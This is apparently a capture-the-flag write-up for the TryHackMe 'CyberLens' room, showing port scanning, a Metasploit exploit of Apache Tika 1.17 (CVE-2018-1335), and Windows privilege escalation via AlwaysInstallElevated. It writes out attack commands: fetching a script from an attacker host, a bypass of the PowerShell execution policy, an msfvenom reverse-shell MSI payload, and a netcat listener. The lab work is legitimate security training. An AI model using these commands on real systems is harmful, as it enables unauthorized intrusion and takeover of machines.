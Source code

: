 ```yaml
---
title: THM CyberLens
author: hanhctf
date: 2024-05-20 12:00:00 +0700
categories: [Write-up, THM]
tags: [CVE-2018-1335]
toc: true
mermaid: true
---
```


# [**CyberLens**](https://tryhackme.com/r/room/cyberlensp6)

# Summary
>
> - Port 61777 open ==> Apache Tika 1.17 Server ==> CVE-2018-1335
> - Use Metasploit exploit user
> - Use PrivescCheck.ps1, check Windows Privilege Escalation  
> - AlwaysInstallElevated vuln

## NMAP

```text
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
61777/tcp open  http          syn-ack Jetty 8.y.z-SNAPSHOT
```

## Web Enumeration

After enumeration port 80, nothing interested.  

Continuous enumeration port 61777, we can see Apache Tika 1.17 Server.

![](/commons/THM/CyberLens/0_Apache_Tika_1.17_Server.png)

Quick search, we found CVE-201801335 for Apache Tika 1.17 Server on [exploit-db](https://www.exploit-db.com/exploits/47208)

## Foothold

Use Metasploit to exploit this vuln.
![](/commons/THM/CyberLens/1_metasploit_exploit.png)

Worked.

***GOT USER.TXT FLAG***

## Privilege Escalation

This tool is available on GitHub [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck).

We can use curl to upload PrivescCheck.ps1 to the victim via Powershell.  
In this case. I run the local server with `python3 -m http.server 80` to host PrivescCheck.ps1 file.  
In victim machine, we get .ps1 via `Invoke-WebRequest -Uri http://attack_IP:port/PrivescCheck.ps1 -Outfile PrivescCheck.ps1`  

Run tools:

```shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

We found a vuln that can be exploited.

![](/commons/THM/CyberLens/2_Always_Install_Elevated.png)

And we can use [this exploit](https://juggernaut-sec.com/alwaysinstallelevated/)

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```

And upload from local.

In another terminal, listen on port 443 `sudo nc -nlvp 443`

After getting evil.msi in victim from local.

Just run the file. And we got the system.
![](/commons/THM/CyberLens/3_Root.png)

***GOT ADMIN.TXT FLAG***

